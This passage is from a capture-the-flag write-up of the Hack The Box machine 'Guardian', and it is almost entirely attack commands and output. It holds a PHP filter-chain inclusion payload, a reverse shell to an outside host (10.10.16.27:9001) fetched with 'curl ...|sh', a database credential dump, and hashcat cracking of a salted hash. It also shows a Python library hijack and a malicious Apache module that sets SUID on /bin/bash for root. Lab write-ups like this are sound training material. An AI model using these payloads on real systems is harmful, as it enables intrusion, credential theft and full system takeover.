rt.iconv.ISO6937.8859_4|convert.iconv.IBM868.UTF-16LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L4.UTF32|convert.iconv.CP1250.UCS-2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM921.NAPLPS|convert.iconv.855.CP936|convert.iconv.IBM-932.UTF-8|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.8859_3.UTF16|convert.iconv.863.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP1046.UTF16|convert.iconv.ISO6937.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP1046.UTF32|convert.iconv.L6.UCS-2|convert.iconv.UTF-16LE.T.61-8BIT|convert.iconv.865.UCS-4LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.MAC.UTF16|convert.iconv.L8.UTF16BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CSIBM1161.UNICODE|convert.iconv.ISO-IR-156.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.IBM932.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.base64-decode/resource=reports/system.php&cmd=id
```


As next logical step we wanted to get a `reverse shell` on the box. Therefore we took the safe route and used a `staged payload` which we executed using `curl`.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Guardian/serve]
└─$ cat x
#!/bin/bash
bash -c '/bin/bash -i >& /dev/tcp/10.10.16.27/9001 0>&1'
```

```shell
http://portal.guardian.htb/admin/reports.php?report=php://filter/convert.iconv.UTF8.CSISO2022KR|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16|convert.iconv.WINDOWS-1258.UTF32LE|convert.iconv.ISIRI3342.ISO-IR-157|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.ISO2022KR.UTF16|convert.iconv.L6.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.IBM932.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L5.UTF-32|convert.iconv.ISO88594.GB13000|convert.iconv.BIG5.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.851.UTF-16|convert.iconv.L1.T.618BIT|convert.iconv.ISO-IR-103.850|convert.iconv.PT154.UCS4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.GBK.SJIS|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.PT.UTF32|convert.iconv.KOI8-U.IBM-932|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.DEC.UTF-16|convert.iconv.ISO8859-9.ISO_6937-2|convert.iconv.UTF16.GB13000|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90|convert.iconv.CSA_T500-1983.UCS-2BE|convert.iconv.MIK.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.iconv.UCS-2.OSF00030010|convert.iconv.CSIBM1008.UTF32BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP861.UTF-16|convert.iconv.L4.GB13000|convert.iconv.BIG5.JOHAB|convert.iconv.CP950.UTF16|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.863.UNICODE|convert.iconv.ISIRI3342.UCS4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.851.UTF-16|convert.iconv.L1.T.618BIT|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP861.UTF-16|convert.iconv.L4.GB13000|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.8859_3.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.PT.UTF32|convert.iconv.KOI8-U.IBM-932|convert.iconv.SJIS.EUCJP-WIN|convert.iconv.L10.UCS4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP367.UTF-16|convert.iconv.CSIBM901.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.PT.UTF32|convert.iconv.KOI8-U.IBM-932|convert.iconv.SJIS.EUCJP-WIN|convert.iconv.L10.UCS4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.863.UTF-16|convert.iconv.ISO6937.UTF16LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.864.UTF32|convert.iconv.IBM912.NAPLPS|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP861.UTF-16|convert.iconv.L4.GB13000|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.GBK.BIG5|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.865.UTF16|convert.iconv.CP901.ISO6937|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP-AR.UTF16|convert.iconv.8859_4.BIG5HKSCS|convert.iconv.MSCP1361.UTF-32LE|convert.iconv.IBM932.UCS-2BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90|convert.iconv.ISO6937.8859_4|convert.iconv.IBM868.UTF-16LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L4.UTF32|convert.iconv.CP1250.UCS-2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM921.NAPLPS|convert.iconv.855.CP936|convert.iconv.IBM-932.UTF-8|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.8859_3.UTF16|convert.iconv.863.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP1046.UTF16|convert.iconv.ISO6937.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP1046.UTF32|convert.iconv.L6.UCS-2|convert.iconv.UTF-16LE.T.61-8BIT|convert.iconv.865.UCS-4LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.MAC.UTF16|convert.iconv.L8.UTF16BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CSIBM1161.UNICODE|convert.iconv.ISO-IR-156.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.IBM932.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.base64-decode/resource=reports/system.php&cmd=curl 10.10.16.27/x|sh
```

And immediately after entering the payload in the `URL` field we received a shell as `www-data`.

```shell
┌──(kali㉿kali)-[~]
└─$ nc -lnvp 9001
listening on [any] 9001 ...
connect to [10.10.16.27] from (UNKNOWN) [10.129.138.66] 52730
bash: cannot set terminal process group (1151): Inappropriate ioctl for device
bash: no job control in this shell
www-data@guardian:~/portal.guardian.htb/admin$
```

We stabilized our shell and moved on.

```shell
www-data@guardian:~/portal.guardian.htb/admin$ python3 -c 'import pty;pty.spawn("/bin/bash")'
<min$ python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@guardian:~/portal.guardian.htb/admin$ ^Z
zsh: suspended  nc -lnvp 9001
                                                                                                                                                                                                                                                                                                                                                                                                                                          
┌──(kali㉿kali)-[~]
└─$ stty raw -echo;fg
[1]  + continued  nc -lnvp 9001

www-data@guardian:~/portal.guardian.htb/admin$ 
www-data@guardian:~/portal.guardian.htb/admin$ export XTERM=xterm
www-data@guardian:~/portal.guardian.htb/admin$
```

## Enumeration (www-data)

Now it was finally time to `enumerate` the box itself. We figured out that `jamil` and `mark` were actually users on the system.

```shell
www-data@guardian:~/portal.guardian.htb/admin$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-network:x:101:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:102:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:104::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:104:105:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
pollinate:x:105:1::/var/cache/pollinate:/bin/false
syslog:x:106:113::/home/syslog:/usr/sbin/nologin
uuidd:x:107:114::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:115::/nonexistent:/usr/sbin/nologin
tss:x:109:116:TPM software stack,,,:/var/lib/tpm:/bin/false
landscape:x:110:117::/var/lib/landscape:/usr/sbin/nologin
fwupd-refresh:x:111:118:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
usbmux:x:112:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
sshd:x:113:65534::/run/sshd:/usr/sbin/nologin
jamil:x:1000:1000:guardian:/home/jamil:/bin/bash
lxd:x:999:100::/var/snap/lxd/common/lxd:/bin/false
mysql:x:114:121:MySQL Server,,,:/nonexistent:/bin/false
snapd-range-524288-root:x:524288:524288::/nonexistent:/usr/bin/false
snap_daemon:x:584788:584788::/nonexistent:/usr/bin/false
dnsmasq:x:115:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
mark:x:1001:1001:ls,,,:/home/mark:/bin/bash
gitea:x:116:123:Git Version Control,,,:/home/gitea:/bin/bash
_laurel:x:998:998::/var/log/laurel:/bin/false
sammy:x:1002:1003::/home/sammy:/bin/bash
```

| Username |
| -------- |
| jamil    |
| mark     |

## Database Enumeration

Since we previously found `credentials` for the `MySQL Database` we used those to search for `Hashes` we eventually could crack.

| Username | Password                 |
| -------- | ------------------------ |
| root     | Gu4rd14n_un1_1s_th3_b3st |

```shell
www-data@guardian:~$ mysql -u root -p             
Enter password: 
Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 4323
Server version: 8.0.43-0ubuntu0.22.04.1 (Ubuntu)

Copyright (c) 2000, 2025, Oracle and/or its affiliates.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

mysql>
```

```shell
mysql> show databases;
+--------------------+
| Database           |
+--------------------+
| guardiandb         |
| information_schema |
| mysql              |
| performance_schema |
| sys                |
+--------------------+
5 rows in set (0.00 sec)
```

```shell
mysql> use guardiandb;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
```

```shell
mysql> show tables;
+----------------------+
| Tables_in_guardiandb |
+----------------------+
| assignments          |
| courses              |
| enrollments          |
| grades               |
| messages             |
| notices              |
| programs             |
| submissions          |
| users                |
+----------------------+
9 rows in set (0.00 sec)
```

```shell
mysql> select * from users \G;
*************************** 1. row ***************************
      user_id: 1
     username: admin
password_hash: 694a63de406521120d9b905ee94bae3d863ff9f6637d7b7cb730f7da535fd6d6
    full_name: System Admin
        email: admin@guardian.htb
          dob: 2003-04-09
      address: 2625 Castlegate Court, Garden Grove, California, United States, 92645
    user_role: admin
       status: active
   created_at: 2025-08-31 06:00:04
   updated_at: 2025-08-31 06:00:04
*************************** 2. row ***************************
      user_id: 2
     username: jamil.enockson
password_hash: c1d8dfaeee103d01a5aec443a98d31294f98c5b4f09a0f02ff4f9a43ee440250
    full_name: Jamil Enocksson
        email: jamil.enockson@guardian.htb
          dob: 1999-09-26
      address: 1061 Keckonen Drive, Detroit, Michigan, United States, 48295
    user_role: admin
       status: active
   created_at: 2025-08-31 06:00:04
   updated_at: 2025-08-31 06:00:04
<--- CUT FOR BREVITY --->
```

## Privilege Escalation to jamil
### Cracking the Hash using hashcat

With the `Salt` we got from the `config.php` and the `password_hash` from the `MySQL Database` we created a `valid hash` in order to `crack` it using `hashcat`

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Guardian/files]
└─$ cat jamil.hash 
c1d8dfaeee103d01a5aec443a98d31294f98c5b4f09a0f02ff4f9a43ee440250:8Sb)tM1vs1SS
```

After a short amount of time we retrieved the `password` for `jamil`.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Guardian/files]
└─$ hashcat -m 1410 jamil.hash /usr/share/wordlists/rockyou.txt
hashcat (v6.2.6) starting

OpenCL API (OpenCL 3.0 PoCL 6.0+debian  Linux, None+Asserts, RELOC, SPIR-V, LLVM 18.1.8, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
====================================================================================================================================================
* Device #1: cpu-haswell-Intel(R) Core(TM) i9-10900 CPU @ 2.80GHz, 2917/5899 MB (1024 MB allocatable), 4MCU

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256
Minimim salt length supported by kernel: 0
Maximum salt length supported by kernel: 256

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Optimizers applied:
* Zero-Byte
* Early-Skip
* Not-Iterated
* Single-Hash
* Single-Salt
* Raw-Hash

ATTENTION! Pure (unoptimized) backend kernels selected.
Pure kernels can crack longer passwords, but drastically reduce performance.
If you want to switch to optimized kernels, append -O to your commandline.
See the above message to find out about the exact limits.

Watchdog: Temperature abort trigger set to 90c

Host memory required for this attack: 1 MB

Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 14344385

c1d8dfaeee103d01a5aec443a98d31294f98c5b4f09a0f02ff4f9a43ee440250:8Sb)tM1vs1SS:copperhouse56
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 1410 (sha256($pass.$salt))
Hash.Target......: c1d8dfaeee103d01a5aec443a98d31294f98c5b4f09a0f02ff4...1vs1SS
Time.Started.....: Sun Aug 31 08:10:39 2025 (0 secs)
Time.Estimated...: Sun Aug 31 08:10:39 2025 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:  3175.2 kH/s (0.23ms) @ Accel:512 Loops:1 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 1902592/14344385 (13.26%)
Rejected.........: 0/1902592 (0.00%)
Restore.Point....: 1900544/14344385 (13.25%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#1....: coreyboo1 -> cookie023
Hardware.Mon.#1..: Util: 20%

Started: Sun Aug 31 08:10:18 2025
Stopped: Sun Aug 31 08:10:40 2025
```

| Password      |
| ------------- |
| copperhouse56 |

This allowed us to perform the `Privilege Escalation` to `jamil` and to grab the `user.txt`.

```shell
www-data@guardian:~$ su jamil
Password: 
jamil@guardian:/var/www$
```

## user.txt

```shell
jamil@guardian:~$ cat user.txt 
9c83215adbba8a6e6fe97b8407a1a91a
```

## Enumeration (jamil)

As `jamil` performed the typical checks and noticed that he was member of the `admins` group. Furthermore he was able to execute `/opt/scripts/utilities/utilities.py` using `sudo` on behalf or `mark`.

```shell
jamil@guardian:~$ id
uid=1000(jamil) gid=1000(jamil) groups=1000(jamil),1002(admins)
```

```shell
jamil@guardian:~$ ls -la
total 28
drwxr-x--- 3 jamil jamil 4096 Jul 14 16:57 .
drwxr-xr-x 6 root  root  4096 Jul 30 14:59 ..
lrwxrwxrwx 1 root  root     9 Jul 14 16:57 .bash_history -> /dev/null
-rw-r--r-- 1 jamil jamil  220 Jan  6  2022 .bash_logout
-rw-r--r-- 1 jamil jamil 3805 Apr 19 07:52 .bashrc
drwx------ 2 jamil jamil 4096 Apr 26 17:27 .cache
lrwxrwxrwx 1 root  root     9 Apr 12 10:15 .mysql_history -> /dev/null
-rw-r--r-- 1 jamil jamil  807 Jan  6  2022 .profile
-rw-r----- 1 root  jamil   33 Aug 30 19:02 user.txt
```

```shell
jamil@guardian:~$ sudo -l
Matching Defaults entries for jamil on guardian:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User jamil may run the following commands on guardian:
    (mark) NOPASSWD: /opt/scripts/utilities/utilities.py
```

```shell
jamil@guardian:~$ cat /opt/scripts/utilities/utilities.py
#!/usr/bin/env python3

import argparse
import getpass
import sys

from utils import db
from utils import attachments
from utils import logs
from utils import status


def main():
    parser = argparse.ArgumentParser(description="University Server Utilities Toolkit")
    parser.add_argument("action", choices=[
        "backup-db",
        "zip-attachments",
        "collect-logs",
        "system-status"
    ], help="Action to perform")
    
    args = parser.parse_args()
    user = getpass.getuser()

    if args.action == "backup-db":
        if user != "mark":
            print("Access denied.")
            sys.exit(1)
        db.backup_database()
    elif args.action == "zip-attachments":
        if user != "mark":
            print("Access denied.")
            sys.exit(1)
        attachments.zip_attachments()
    elif args.action == "collect-logs":
        if user != "mark":
            print("Access denied.")
            sys.exit(1)
        logs.collect_logs()
    elif args.action == "system-status":
        status.system_status()
    else:
        print("Unknown action.")

if __name__ == "__main__":
    main()
```

## Privilege Escalation to mark

### Python Library Hijacking

To abuse the capabilities of `jamil` we checked our `permissions` on the `opt/scripts/utilities/utils/` directory.

Due to the fact that we were member of the `admins` group we were allowed to `edit` the `status.py`. This lead us the way to `Python Library Hijacking`.

```shell
jamil@guardian:~$ ls -la /opt/scripts/utilities/utils/
total 24
drwxrwsr-x 2 root root   4096 Jul 10 14:20 .
drwxr-sr-x 4 root admins 4096 Jul 10 13:53 ..
-rw-r----- 1 root admins  287 Apr 19 08:15 attachments.py
-rw-r----- 1 root admins  246 Jul 10 14:20 db.py
-rw-r----- 1 root admins  226 Apr 19 08:16 logs.py
-rwxrwx--- 1 mark admins  253 Apr 26 09:45 status.py
```

To be on the safe side we created a `copy` of the `status.py` first.

```shell
jamil@guardian:~$ cp /opt/scripts/utilities/utils/status.py /tmp/status.py.bak
```

Then we added our `payload` to drop into a shell as mark.

```shell
jamil@guardian:~$ cat >> /opt/scripts/utilities/utils/status.py << 'EOF'

import os
os.system('/bin/bash -p')
EOF
```

All what was left to do was to execute the command with the `-u` option set to `mark` and we successfully performed our second `Privilege Escalation`.

```shell
jamil@guardian:~$ sudo -u mark /opt/scripts/utilities/utilities.py system-status
```

## Enumeration (mark)

As `mark` we repeated the whole process. This user was also member of the `admins` group and had a very unusual folder in his `home directory` called `confs`.

```shell
mark@guardian:~$ id
uid=1001(mark) gid=1001(mark) groups=1001(mark),1002(admins)
```

```shell
mark@guardian:~$ ls -la
total 28
drwxr-x--- 4 mark mark 4096 Jul 14 16:57 .
drwxr-xr-x 6 root root 4096 Jul 30 14:59 ..
lrwxrwxrwx 1 root root    9 Jul 14 16:57 .bash_history -> /dev/null
-rw-r--r-- 1 mark mark  220 Apr 18 10:11 .bash_logout
-rw-r--r-- 1 mark mark 3805 Apr 19 07:52 .bashrc
drwx------ 2 mark mark 4096 Apr 26 09:42 .cache
drwxrwxr-x 2 mark mark 4096 Jul 13 09:24 confs
lrwxrwxrwx 1 root root    9 Apr 19 07:35 .mysql_history -> /dev/null
-rw-r--r-- 1 mark mark  807 Apr 18 10:11 .profile
```

When we checked his `sudo` capabilities we saw that `mark` was allowed to execute `/usr/local/bin/safeapache2ctl` using `sudo`.

```shell
mark@guardian:~$ sudo -l
Matching Defaults entries for mark on guardian:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User mark may run the following commands on guardian:
    (ALL) NOPASSWD: /usr/local/bin/safeapache2ctl
```

However the execution of the command required a `configuration file`.

```shell
mark@guardian:~$ sudo /usr/local/bin/safeapache2ctl
Usage: /usr/local/bin/safeapache2ctl -f /home/mark/confs/file.conf
```

## Privilege Escalation to root

### Apache2 Module Abuse

Since the `conf` folder was empty we decided to abuse a `Apache2 Module` in order to load our own maliciously crafted one.

Therefore we prepared a small `C` program to set the `SUID` bit onto `/bin/bash`.

```shell
mark@guardian:~$ cat > /tmp/evil.c << 'EOF'
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

void _init() {
    setuid(0);
    setgid(0);
    system("chmod u+s /bin/bash");
}
EOF
```

We compiled it..

```shell
mark@guardian:~$ gcc -shared -fPIC -nostartfiles -o /tmp/evil.so /tmp/evil.c
```

..and then we created the `configuration file` using the `mpm_prefork_module` to load our `evil.so` module from within `/tmp`.

```shell
mark@guardian:~$ cat > /home/mark/confs/loadfile.conf << 'EOF'
ServerRoot /usr
LoadModule mpm_prefork_module /usr/lib/apache2/modules/mod_mpm_prefork.so
LoadFile /tmp/evil.so
Listen 8080
DocumentRoot /tmp
EOF
```

We executed the command successfully to receive a error message but got the `SUID` bit successfully set ;)

```shell
mark@guardian:~$ sudo /usr/local/bin/safeapache2ctl -f /home/mark/confs/loadfile.conf
Terminated
Action '-f /home/mark/confs/loadfile.conf' failed.
The Apache error log may have more information.
```

```shell
mark@guardian:~$ ls -la /bin/bash
-rwsr-xr-x 1 root root 1396520 Mar 14  2024 /bin/bash
```

```shell
mark@guardian:~$ /bin/bash -p
bash-5.1#
```

## root.txt

```shell
bash-5.1# cat /root/root.txt
a503c0ba80187740525d379cf4dfe1bb
```
